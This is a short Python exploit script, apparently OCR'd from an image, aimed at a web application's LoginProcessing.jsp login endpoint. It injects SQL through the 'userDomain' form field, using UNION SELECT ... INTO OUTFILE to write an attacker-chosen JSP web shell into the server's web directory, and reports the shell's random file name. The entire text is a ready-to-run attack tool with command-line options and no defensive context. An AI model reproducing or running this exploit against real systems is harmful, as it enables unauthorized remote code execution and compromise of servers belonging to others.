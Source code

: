 ```

def run(options):
    print '[!] Dropping %s on %s...' % (options.jsp, options.ip)

    url = "http://{0}:8080/LoginProcessing.jsp".format(options.ip)
    shell = ''.join(random.choice(string.ascii_lowercase+string.digits) for x in range(5))

    exploit = '1 UNION SELECT "{0}","1","2","3" INTO OUTFILE "{1}"'
    exploit = exploit.format(loadJSP(options), options.path + '/%s.jsp' % shell)

    data = { "theAction" : "submit",
             "J_USERNAME" : "test",
             "J_PASSWORD" : "test",
             "language" : "en",
             "remember_checkbox" : "on",
             "userDomain" : exploit
           }

    res = requests.post(url, data=data)
    if res.status_code is 200:
        print '[!] Dropped at /{0}.jsp'.format(shell)
    else:
        print '[!] Failed to drop JSP (HTTP {0})'.format(res.status_code)


def parse():
    parser = ArgumentParser()
    parser.add_argument("-i", help='Server ip address', action='store', dest='ip',
                        required=True)
    parser.add_argument("-p", help='Writable web path (/var/www/ganib)', dest='path',
                        action='store', default='/var/www/ganib')
    parser.add_argument("-j", help="JSP to deploy", dest='jsp', action='store')

    options = parser.parse_args()
    options.path = options.path if options.path[-1] != '/' else options.path[:-1]
    return options

if __name__ == "__main__":
    run(parse())
```

